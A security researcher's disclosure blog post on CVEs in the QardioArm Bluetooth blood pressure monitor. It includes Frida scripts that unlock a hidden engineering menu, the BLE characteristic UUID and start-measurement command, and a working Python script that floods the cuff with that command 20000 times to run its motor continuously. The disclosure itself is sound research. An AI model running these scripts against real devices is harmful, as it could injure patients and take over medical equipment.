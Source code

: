 ```yaml
---
layout: post
title: Reversing the QardioArm
---
```

![Untitled](/assets/blinko-001.png)

This is a two-part blog post disclosing the first set of CVEs *(CVE-2025-20615, CVE-2025-23421, and CVE-2025-24836)* for the QardioArm, a wireless blood pressure monitor. I was first interested in the device because of its hardware, which I will discuss in another blog post. 

### Part 0x1 - Exposed Credentials

The mobile application was simple. You create a username and password and login to the application to begin pairing and using the QardioArm device. Though you can do the same for any of their mobile app-supported devices.

I started by decrypting and pulling the IPA onto my laptop. My main goal was to see what juicy information I could find inside the compiled application. To my surprise, there was a plist file with more than one set of production-level credentials. I will leave that exercise to the reader…

After finding this plist file I incrementally logged into each set of credentials. One set exposed an interesting Menu option. I found that an engineering panel was present in the App Route. This was found in the `Qardio.AppRoutes` class and initialized the `-[Engineering init]` process that could be used to access the engineering menu. 

This menu allowed for the user to send commands to the QardioArm device via the mobile application. Seems like a feature that was not intended to be in a production application. Using [mrmacete’s](https://x.com/bezjaje) objc-method-observer [script](https://www.notion.so/Reversing-the-Qardio-ARM-188d977325a9804fa647fe83f5cffa85?pvs=21). I was able to trace the initialization process of this object. 

```python
(0x28149ba40)  -[EngineeringMenuItem init]
0x104842258 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!+[MenuItem menuItem]
0x10482ca40 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource items]
0x10482c6d8 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource loadItems]
0x1048a5124 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewController showMenu]
0x1048e27fc /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[QardioMenuViewController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0228f18 UIKitCore!-[UINavigationController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0422394 UIKitCore!-[UIViewController _endAppearanceTransition:]
0x1a0421d44 UIKitCore!__48-[UIPresentationController transitionDidFinish:]_block_invoke
0x1a03a8558 UIKitCore!-[_UIAfterCACommitBlock run]
0x1a03a8494 UIKitCore!-[_UIAfterCACommitQueue flush]
0x1a03a8398 UIKitCore!_runAfterCACommitDeferredBlocks
0x1a02569a4 UIKitCore!_cleanUpAfterCAFlushAndRunDeferredBlocks
RET: <EngineeringMenuItem: 0x28149ba40>
```

In iOS the responsible class method is `+[MenuCollectionViewDataSource items]`. You can use the script to add the EngineeringMenuItem. A QardioArm device needs to be paired to send commands over the console.

```swift
if (ObjC.available) {
    Interceptor.attach(ObjC.classes.MenuCollectionViewDataSource["- items"].implementation, {
        onLeave(retval) {
            try {
                let items = ObjC.Object(retval);
                let mutableItems = ObjC.classes.NSMutableArray.alloc().initWithArray_(items);
                mutableItems.addObject_(ObjC.classes.EngineeringMenuItem.alloc().init());
                retval.replace(mutableItems);
            } catch (e) {
                console.log("[!] Error: " + e);
            }
        }
    });
}
```

In Android, the responsible class is `com.getqardio.android.mvp.MvpApplication` and the boolean type `c0` needs to be changed to true. It took a lot of poking and prodding in jadx-gui to find the right boolean value. You can use the following Frida script to enable the engineering console with any user.  

```swift
Java.perform(function() {
    var MvpApplication = Java.use("com.getqardio.android.mvp.MvpApplication");

    MvpApplication.c0.implementation = function() {
        console.log("[*] Overriding c0() to return TRUE");
        return true;
    };
});
```

![Untitled](/assets/qardioAndroid.png)

### Part 0x2 - Chars and CMDs

Onto reversing the unencrypted Bluetooth connection with the QardioArm device. This device uses a small microcontroller powered by four AAA batteries to engage a small pump and start the blood pressure measurement process. If you are interested in the general schematics of the device you can find all internal details on the FCC website. I may dump the microcontroller firmware on my GitHub at a later point for anyone interested. 

Each start measurement command is sent over a Bluetooth connection to the mobile application. The results are displayed in the application dashboard, showing the patient's corresponding values to the clinician. 

My next goal was to obtain the UUID identified for the BLE characteristic, the property assigned to the characteristic, and the value of the characteristic length. iOS uses the [CBCharacteristic](https://developer.apple.com/documentation/corebluetooth/cbcharacteristic) class to send commands over Bluetooth. So using a custom Frida script I traced the value of each and began the reversing process. Using my script I was able to observe the following output when connecting the QardioArm device and starting a command:

```swift
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf101} Type: 0x0
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf102} Type: 0x0
```

Based on this information:

- The UUID `583CB5B3-875D-40ED-9098-C39EB0C1983D` is the identifier for the BLE characteristic that the data is being written to.
- The value of the data written to the characteristic is of `{length = 2, bytes = 0xf101}` the data is `0xF101`.

For sanity grepping for this UUID in the compiled application binary or using Hopper we can observe the following:

```swift
❯ strings Qardio | grep -i 583CB5B3-875D-40ED-9098-C39EB0C1983D -A 10 -B 10
EnvelopeTransmissionFailureRangeStartKey
EnvelopeTransmissionFailureRangeEndKey
EnvelopeTransmissionFailureRealtimeKey
kBLEServiceBluetoothPowerChanged
powerIsOn
com.getqardio.blequeue
v32@?0@"NSString"8@"<BLEService>"16^B24
QardioARM
QardioARM 2
1810
583CB5B3-875D-40ED-9098-C39EB0C1983D
712F0003-6CE1-4447-994C-D85E078F6BF5
2A35
23810
v32@?0@"NSString"8@"NSDate"16^B24
%d%d%d
QardioCoreDeviceStateKey
/Users/########/Documents/work/qardio-ios/QardioBLE/CBPeripheral+CoreServiceRequests.m
-[CBPeripheral(CoreServiceRequests) qd_requestMissedEnvelopes:oldestEnvelope:nextEnvelope:]
CoreServiceCharacteristcs: ERROR! This is really too bad, iOS lost data, lastStored < oldestEnvelope
CoreServiceCharacteristcs: ERROR! Something has gone terribly wrong, lastStored > nextEnvelope.
```

Hopper has a direct string cross-reference in the following class `BPDService`:

```swift
___CFConstantStringClassReference, 0x7c8, a583cb5b3875d40, 0x24 ; "583CB5B3-875D-40ED-9098-C39EB0C1983D", DATA XREF=-[BPDService peripheral:didDiscoverCharacteristicsForService:error:]+612, -[BPDService peripheral:didUpdateValueForCharacteristic:error:]+2720
```

On the Android side you can see the following value in the `BleBPDataProvider` class:

```swift
    static {
        UUID fromString = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString, "fromString(\"00001810-0000-1000-8000-00805f9b34fb\")");
        j = fromString;
        UUID fromString2 = UUID.fromString("00002a35-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString2, "fromString(\"00002a35-0000-1000-8000-00805f9b34fb\")");
        k = fromString2;
        UUID fromString3 = UUID.fromString("00002a26-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString3, "fromString(\"00002a26-0000-1000-8000-00805f9b34fb\")");
        l = fromString3;
        UUID fromString4 = UUID.fromString("00002a28-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString4, "fromString(\"00002a28-0000-1000-8000-00805f9b34fb\")");
        m = fromString4;
        n = UUID.fromString("583CB5B3-875D-40ED-9098-C39EB0C1983D");
        o = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
    }
```

Next, after reversing the command's value and the proper UUID, my main task was to create an automation script and then send a `startMeasurement` command.

### Part 0x3 - Custom Scripting

Below is the custom script I wrote, which checks for the device name, connects to the UUID, and sends the write command `f101` 20000 times. This floods the device and forces it to run the motor continuously. 

[Video](https://youtu.be/y3s-3RQ-J2A) POC.

```swift
import asyncio
import logging
from bleak import BleakScanner, BleakClient

# Configure logging
logging.basicConfig(level=logging.DEBUG, format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

DEVICE_NAME = "QardioARM"
CHAR_UUID = "583cb5b3-875d-40ed-9098-c39eb0c1983d"
DATA_TO_WRITE = bytes.fromhex('f101')  # Ensure correct format

async def connect_and_write():
    logger.info("Scanning for devices...")
    devices = await BleakScanner.discover()

    device = next((dev for dev in devices if dev.name == DEVICE_NAME), None)
    if not device:
        logger.error(f"Device named {DEVICE_NAME} not found.")
        return

    async with BleakClient(device.address) as client:
        await client.connect()
        logger.info(f"Connected to {DEVICE_NAME}. Writing data to characteristic...")

        # Loop to write data 20000 times
        for i in range(20000):
            await client.write_gatt_char(CHAR_UUID, DATA_TO_WRITE, response=True)
            logger.info(f"Data written successfully {i+1} times. Waiting for device to process...")
            await asyncio.sleep(0.5)  # Delay to avoid overwhelming the device

        logger.info("Completed all write operations. Disconnecting...")

# Run the async function
asyncio.run(connect_and_write())
```

### Conclusion

Overall the disclosure timeline for these CVEs took about 5+ months. Thanks to VINCE and CISA for helping publish the details. The vendor, Qardio was ultimately unresponsive, I even tried reaching out to one of their developers over LinkedIn. They informed me the company is now bankrupt.

In the next blog post, I will discuss analyzing the static bin file from the mobile application and flashing the firmware to an ESP32-C3 dev board.
